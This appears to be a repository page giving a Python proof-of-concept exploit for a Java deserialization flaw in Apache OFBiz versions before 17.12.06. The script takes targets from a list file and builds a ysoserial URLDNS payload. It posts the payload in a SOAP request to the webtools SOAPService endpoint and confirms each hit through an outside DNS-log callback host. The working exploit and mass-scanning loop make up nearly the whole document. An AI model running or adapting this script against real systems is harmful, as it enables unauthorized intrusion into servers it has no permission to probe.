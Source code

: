 <languages />

Vulnerability Impact
--------------------

Apache OFBiz \< 17.12.06

POC
---

    #coding:utf-8
    import binascii
    import os
    import requests
    import urllib3
    import uuid
    urllib3.disable_warnings()
    def main():
        id = requests.get("https://dns.xn--9tr.com/new_gen").text.split(".")[0]
        if(not os.path.exists("target.txt")):
            exit("put url in target.txt! ")
        if(not os.path.exists("ysoserial.jar")):
            exit("where is ysoserial.jar?")
        with open("target.txt")as f:
            urls = f.readlines()
        for url in urls:
            url = url.strip()
            uid = uuid.uuid1().hex
            cmd = "java -jar .\ysoserial.jar URLDNS http://{0}.{1}.y.dns1.tk > tmp".format(uid,id)
            r = os.popen(cmd)
            r.close()
            with open("tmp",'rb') as f:
                payload = binascii.hexlify(f.read())
            data = '''
            <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
                <soapenv:Header/>
                <soapenv:Body>
                <ser>
            <map-HashMap>
                <map-Entry>
                    <map-Key>
                        <cus-obj>{0}</cus-obj>
                    </map-Key>
                    <map-Value>
                        <std-String value="http://baidu.com"/>
                    </map-Value>
                </map-Entry>
            </map-HashMap>
                </ser>
                </soapenv:Body>
                </soapenv:Envelope>
                '''.format(payload.decode())
            headers = {
                "user-agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36"
            }
            url = url+"/webtools/control/SOAPService"
            try:
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
                requests.post(url,data=data,verify=False,headers=headers,timeout=5)
            except:
                pass
            dnslogresurl = "https://dns.xn--9tr.com/"+id
            if(uid in requests.get(dnslogresurl).text):
                print("[+] {0} 漏洞存在".format(url))
            else:
                print("[-] {0} 漏洞不存在".format(url))
        print("[+] 请到 {0} 查看结果".format(dnslogresurl))

    if __name__ == "__main__":
        main()